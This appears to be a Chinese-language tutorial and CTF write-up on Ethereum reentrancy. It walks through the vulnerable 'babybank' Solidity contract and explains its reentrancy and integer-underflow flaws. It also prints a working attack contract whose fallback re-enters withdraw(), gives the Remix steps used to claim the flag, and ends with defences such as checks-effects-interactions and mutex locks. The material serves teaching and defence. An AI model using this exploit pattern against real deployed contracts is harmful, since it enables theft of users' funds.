



# 始于一份样例代码

下面是样例合约的完整代码：

```javascript
pragma solidity ^0.4.23;

contract babybank {
    mapping(address => uint) public balance;
    mapping(address => uint) public level;
    address owner;
    uint secret;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    
    constructor()public{
        owner = msg.sender;
    }
    
    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 10000000000);
        balance[msg.sender]=0;
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    //challenge 1 
    function profit() public{
        require(level[msg.sender]==0);
        require(uint(msg.sender) & 0xffff==0xb1b1);
        balance[msg.sender]+=1;
        level[msg.sender]+=1;
    }
    
    //challenge 2
    function set_secret(uint new_secret) public onlyOwner{
        secret=new_secret;
    }
    function guess(uint guess_secret) public{
        require(guess_secret==secret);
        require(level[msg.sender]==1);
        balance[msg.sender]+=1;
        level[msg.sender]+=1;
    }
    
    //challenge 3
    function transfer(address to, uint amount) public{
        require(balance[msg.sender] >= amount);
        require(amount==2);
        require(level[msg.sender]==2);
        balance[msg.sender] = 0;
        balance[to] = amount;
    }
    
    function withdraw(uint amount) public{
        require(amount==2);
        require(balance[msg.sender] >= amount);
        msg.sender.call.value(amount*100000000000000)();
        balance[msg.sender] -= amount;
    }
}
```

由于我们主要是要分析它可能会受到攻击的点，所以不用太关心上面样例合约的业务流程，大体可以看看它的功能块：

1. 构造函数，初始化该合约的owner。
2. 定义了一个modifier onlyowner，用于限定具体的操作只有owner才能访问。
3. 挑战1 profit()，用于匹配账户地址，只有地址末位是0xb1b1的，才能获得奖励和层级提升。
4. 挑战2 set_secret()和guess()：

- set_secret()只能被合约的owner调用，用于设置或修改密码；
- guess()则为该合约的访问账户调用，如果猜对了owner设置的密码，且该账户的层级是1，就会获得奖励1，并层级跃迁一级。

5. 挑战3 transfer()和withdraw()：

- transfer()在访问者账户里奖励数额够，且层级达到2的情况下，将2个奖励点，转给指定的其它账户；
- withdraw()从访问者账户抽取奖励点。

看完它的功能点，其实我们也可大致理解该样例合约的意义：访问合约的账户想要得到flag，但要确保其账户的奖励点要超过10000000000；但这些账户想要获得奖励点，就只能通过**3大挑战**：

1. 我们知道，以太坊账户地址的生成是基于Hash算法的，具有随机性，如何得到指定末位几位的地址？

- 通过网站https://vanity-eth.tk/，它可以帮助我们获得指定前缀或者后缀的以太地址账号。

2. 关键的漏洞就在第3大挑战的withdraw函数，它可能会触发以下两份行代码的执行：

```javascript
msg.sender.call.value(amount*100000000000000)();
balance[msg.sender] -= amount;
```

上一行可能导致重入攻击，下一行则可能导致整形下溢出。

首先我们看利用call调用引用的重入攻击：

1. 如果msg.sender本身就是一个合约的话，call调用在转账的时候会调用该合约的fallback函数。
2. 这时候如果构造一个恶意的合约，在它的fallback函数里面再次调用一次样例合约中的withdraw函数，这样就相当于调用了2次withdraw，经过了2次**balance[msg.sender] -= amount;**。
3. 当然，在其fallback函数里，可以继续调用该withdraw函数；也可以在某种情形下（比如账户中的奖励点数已经足够多了）中止调用。

再看整形下溢出攻击：

1. 转账的第一次可能2-2；
2. 第二次就是0-2，实现整形下溢出，变成很大的一个数字，这样就可以实现balance[msg.sender] >= 10000000000。

下面则利用重入漏洞进行攻击的一份经典攻击合约代码：

```javascript
pragma solidity ^0.4.24;

interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}
contract attack {
    BabybankInterface private bank = BabybankInterface(0x3E44E3d7Ecf4500179a132B8dD3FeC182Ed4a1F4);
    bool flag = false;
    function() external payable{
        require(flag==false);
        flag=true;
        bank.withdraw(2);
    }
    function att() public {
        bank.withdraw(2);
    }
}
```

具体的攻击手法：利用末位地址为b1b1结尾的那个账号调用transfer函数，把2块钱转到我们这个攻击合约上。

然后攻击合约再调用att()，实施攻击；这个攻击可以直接在Remix上进行：

1. 调用att



2. 查看账户余额，发现溢出成功



3. 调用最初样例合约中payforflag()函数，就可能获得不用经历3大挑战，就可获得意想的结果！

# 重入漏洞根因

在以太坊的官方文档里，有这么两句话：任何从合约 A 到合约 B 的交互以及任何从合约 A 到合约 B 的 以太币Ether 的转移，都会将控制权交给合约 B。 这使得合约 B 能够在交互结束前回调 A 中的代码。

以太坊这样设计初衷估计是：合约A请求合约B的服务，很可能会牵涉到以太币的支付、退回或转移；这就需要有种方式，让合约A来承接本属于自己的币，并做相应的处理；因此就有了上述的fallback机制。

但这个机制就带来了一个重入的漏洞：在以太坊智能合约中，进行转账等操作，一旦向被攻击者劫持的合约地址发起转账操作，迫使执行攻击合约的回调函数，回调函数中包含**回调自身代码**，将会导致代码执行“重新进入”被劫持合约；这种合约漏洞，就被称为“重入漏洞”。利用该漏洞实施的攻击，就是重入攻击。前面利用withdraw()的例子就是此类攻击。

这个fallback机制实现就在fallback函数上。下面是该函数的官方解释：



从官方解释我们可以抽取到该函数的几个关键特点：

1. 函数声明时没有函数名。
2. 起着替补函数的作用，如果请求的方法在合约中没有的话，就会执行Fallback函数。
3. 在没有receive函数时，它还可以有收币功能：通过钱包向一个合约转账时，会执行Fallback函数；这一点会让一般合约账户确保转给自己的以太币可收到。

但这也给攻击者留下了漏洞！下面我们再进一步厘清上面攻击例子的过程：

1. msg.sender是一个智能合约的话，msg.sender.call.value(amount)调用call，会执行这个智能合约中的Fallback函数。
2. 这时候，如果这个智能合约是我们恶意构造的，它的fallback里又调用了这个withdraw方法的话，就相当于 ”重新进入“ 了 银行的那个合约中，因此叫”重入攻击“。
3. 对于样例合约代码，它是先取的款，然后再修改银行的合约中的那个记录了每个账号存了多少钱的状态变量balanceOf。

- 先call，然后进入恶意的fallback,fallback又调用了withdraw，这时候重新进入的withdraw里的balanceof[msg.sender]是还没有修改的，因此仍然可以再一次取款，成功盗取了更多的以太币。

这里还有个知识点要注意：目标合约使用 call 发送以太币时，默认提供所有剩余 gas；如果只有 2300 gas 供攻击合约使用，是不足以完成重入攻击的。执行重入攻击前，需要确认目标合约有足够的以太币来向我们多次转账。如果目标合约没有 payable 的 fallback函数，则可以新建一个合约，通过 selfdestruct 自毁强制向目标合约转账。

最后，我们还应看到以太坊转移的几种方式：

1. (address payable）.transfer(uint256 amount)

- 如果异常会转账失败，抛出异常(等价于require(send()))（合约地址转账）
- 有gas限制，最大2300

2. （address payable）.send(uint256 amount) returns (bool)

- 如果异常会转账失败，仅会返回false，不会终止执行（合约地址转账）
- 有gas限制，最大2300

3. (address).call(bytes memory) returns (bool, bytes memory)

- 如果异常会转账失败，仅会返回false，不会终止执行（调用合约的方法并转账）

- 没有gas限制

正是因为call没有gas的限制，所以可以被用来实施重入攻击。

# 如何预防

官方文档建议采用”检查-生效-交互“的编程模式：

```javascript
pragma solidity  >=0.6.0 <0.9.0;

contract Fund {
    /// 合约中 |ether| 分成的映射。
    mapping(address => uint) shares;
    /// 提取你的分成。
    function withdraw() public {
        var share = shares[msg.sender];
        shares[msg.sender] = 0;
        payable(msg.sender).transfer(share);
    }
}
```

除此之外，我们还可以采用以下的方法：

1. 使用内置的 transfer() 函数，来向外部合约账户发送以太币，因为该转账调用只会发送2300gas，这不足以支撑目的合约，再发起另外一次合约调用。
2. 采用互斥锁，也就是引入状态变量，通过该状态变量锁定关键的代码段，禁止它们被非法重入。

